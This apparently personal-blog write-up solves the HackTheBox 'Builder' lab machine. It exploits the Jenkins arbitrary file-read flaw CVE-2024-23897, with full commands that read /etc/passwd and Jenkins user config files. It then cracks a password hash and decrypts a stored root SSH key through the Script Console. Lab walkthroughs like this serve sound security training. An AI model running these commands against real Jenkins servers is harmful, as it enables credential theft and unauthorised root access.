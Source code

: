 ```yaml
---
title: Builder
date: 2024-03-04
categories: [CTF, HackTheBox]
tags: [free, medium, linux, cve, jenkins, docker]
img_path: /assets/img/htb/Builder
image: 
    path: builder.png
    lqip: data:image/webp;base64,L2Fzc2V0cy9pbWcvaHRiL0J1aWxkZXIvYnVpbGRlci5wbmc=
    alt: Machine Info Card
---
```


## Machine Info

Builder is a medium-difficulty Linux machine that features a Jenkins instance. The Jenkins instance is found to be vulnerable to the [CVE-2024-23897](https://nvd.nist.gov/vuln/detail/CVE-2024-23897){:target="_blank"} vulnerability that allows unauthenticated users to read arbitrary files on the Jenkins controller file system. An attacker is able to extract the username and password hash of the Jenkins user `jennifer`. Using the credentials to login into the remote Jenkins instance, an encrypted SSH key is exploited to obtain root access on the host machine.

## Scanning

### Open Ports

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.129.252.250 -oN allports
```

![Nmap Results: Open Ports](allports.png)
_Open Ports_

### Service Detection

```bash
nmap -p22,8080 -sCV 10.129.252.250 -oN services
```

![Nmap Results: Services](services.png)
_SSH & Jenkins_

## Jenkins Arbitrary File Read | CVE-2024-23897

Since there are only two open ports on the target and we don't have credentials to use `ssh`, we will focus our attention in **port 8080** which is running a vulnerable version of [Jenkins](https://www.jenkins.io/security/advisory/2024-01-24/){:target="_blank"}. It also have a stored [credential](https://www.jenkins.io/doc/book/using/using-credentials/){:target="_blank"} that belongs to the root user but we can not access it.

![Jenkins Version](page.png)
_Jenkins 2.441_

![Credential](cred.png)
_Root SSH private Key_

[CVE-2024-23897](https://www.trendmicro.com/en_us/research/24/c/cve-2024-23897.html){:target="_blank"} abuses a feature of the [CLI command](https://www.jenkins.io/doc/book/managing/cli/){:target="_blank"} parser that replaces an '@' character followed by a file path in an argument with the file's contents, allowing unauthenticated attackers to read arbitrary files on the Jenkins controller file system.

![Arbitrary File Read Vuln](searchvuln.png)
_Arbitrary File Read Vulnerability_

To download [Jenkins CLI](https://www.jenkins.io/doc/book/managing/cli/#downloading-the-client){:target="_blank"} you can use the following command:

```bash
wget http://10.129.252.250:8080/jnlpJars/jenkins-cli.jar
```
![Jenkins CLI Download](downloadcli.png)
_Downloading Jenkins CLI from the target_

Since its a **jar** file we have to execute it like this:

```bash
java -jar jenkins-cli.jar
```

![Jenkins CLI](javajar.png)
_Jenkins CLI Usage_

Based on the instructions, we must use `-s` parameter to connect to the jenkins server.

```bash
java -jar jenkins-cli.jar -s http://10.129.252.250:8080
```

![Connecting to Jenkins](commands.png)
_Commands & Descriptions_

According to the documentation of the vulnerability, we must use a **command + @ + the file to read**:

```bash
java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ help @/etc/passwd
```

![Arbitray File Read Example](example.png)
_Arbitary File Read Example_

The **help** command returns just few lines, however in the exploits available online they are using **connect-node** and when using it we saw it returns more content:

```bash
java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ connect-node @/etc/passwd
```

![Reading /etc/passwd](connode.png)
_Reading /etc/passwd_

### Getting Commands that Return more Info

To know which commands returns more content we can craft a special shell one-liner to execute every command and shows us the number of lines that command returns. First of all, we must have all the commands so we can iterate one by one. To do that, we can filter by the spaces just as shown in the image below:

>The execution of `jenkins-cli` returns content as stderr, so we must change it to stdout so we can work with it. **2>&1**.
{: .prompt-danger }

```bash
java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ 2>&1 | grep -v '    ' | tr -d ' '
```

![Getting All Commands](getcommands.png)
_Getting all commands to use_

Once we have the commands organized one by one, we will create a `for` loop to iterate through each line and execute the commands one by one in order to count the lines returned by each command.

```bash
for command in $(java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ 2>&1 | grep -v '    ' | tr -d ' '); do java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ $command @/etc/passwd 2>&1 | wc -l; done
```

![Lines](lines.png)
_Number of lines returned by each command_

Now we are adding some text to get a clear output with the command and the lines it returns:

```bash
for command in $(java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ 2>&1 | grep -v '    ' | tr -d ' '); do echo "The command $command returns $(java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ $command @/etc/passwd 2>&1 | wc -l) lines"; done
```

![Clear Output](output.png)
_Commands with number of lines_

You can also add some colors to have a better output:

```bash
for command in $(java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ 2>&1 | grep -v '    ' | tr -d ' '); do echo "The command \033[1;91m$command\033[0m returns \033[1;92m$(java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ $command @/etc/passwd 2>&1 | wc -l)\033[0m lines"; done
```

![Output with colors](colors.png)
_Output with some colors_

>As shown above, there are some commands that returns more content than others and **connect-node** is one of those that returns more lines so we will use this command to read sensitive files from the victim machine.
{: .prompt-tip }

### Enumerating Sensitive Jenkins Files

Using the command `connect-node` we are going to enumerate the target. First of all, we are going to read the `/proc/self/environ`{: .filepath} which has information about the current process. In this case, all information about Jenkins like the **Home PATH**. We can also read the first flag which is stored in `/var/jenkins_home/`{: .filepath}

```bash
java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ connect-node @/proc/self/environ
java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ connect-node @/var/jenkins_home/user.txt
```

![Flag](environ.png)
_Jenkins HOME PATH_

Here is the [Jenkins Directory Structure](https://devopspilot.com/content/jenkins/4-jenkins_home_folder_structure.html){:target="_blank"} where you can find interesting files to target. The information about users are usually stored in `$JENKINS_HOME/users/users.xml`{: .filepath}

```bash
java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ connect-node @/var/jenkins_home/users/users.xml
```

![Users](users.png)
_Reading users.xml_

Now you can target the config file of that user and display its passwordhash using the following command:

```bash
java -jar jenkins-cli.jar -s http://10.129.252.250:8080/ connect-node @/var/jenkins_home/users/jennifer_12108429903186576833/config.xml 2>&1 | tail
```

![User Config](config.png)
_Jennifer's Password Hash_

We found the hash for the user **jennifer**, so let's use `john` to crack it:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![Cracking](john.png)
_Using john to get the password for jennifer_

Now that we have credentials we can login to Jenkins

![Dashboard](dashboard.png)
_Logged in as jennifer_

## Shell as root

Now that we are logged in as **jennifer** we can access the [credential](https://www.jenkins.io/doc/book/using/using-credentials/){:target="_blank"} we saw earlier.

![Credential](update.png)
_Root SSH Private Key_

There are two ways to get this **credential**, using the browser or the **Arbitrary File Read** vulnerability we exploit before. However you must be logged in in order to decrypt it because, according to the documentation,  credentials configured in Jenkins are stored in an encrypted form on the controller Jenkins instance (encrypted by the Jenkins instance ID).

![Credential](credb.png)
_Getting the credential via the source_

![Credential](key.png)
_Getting the credential using the Arbitrary File Read_

Now we have to decrypt this credential, so in order to see it in clear text we have to use the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/){:target="_blank"}. Here is a link where you can find a way to decrypt this credential -> [How to decrypt Jenkins credentials?](https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml){:target="_blank"}

```groovy
println(hudson.util.Secret.decrypt("{HERE GOES THE CREDENTIAL}"))
```

![Root SSH Private Key](getid.png)
_Root SSH Private Key_

We get the **id_rsa** for the root user so we can use it as an authentication method using `ssh`

>Remember to assign the correct permissions to the private key.
{: .prompt-warning }

![SSH](root.png)
_Using private key to connect to the target via ssh_

![Flags](flags.png)
_Hi! I'm root_

## Flags

- [x] user.txt

```bash
cat /home/jennifer/user.txt 
80f**************************o4d
```

- [x] root.txt

```bash
cat /root/root.txt 
61c**************************49f
``` 

<h2 style="text-align:center;">Thanks for reading! 🙌 🙌 🙌</h2>
{: data-toc-skip='' .mt-4 .mb-0 }

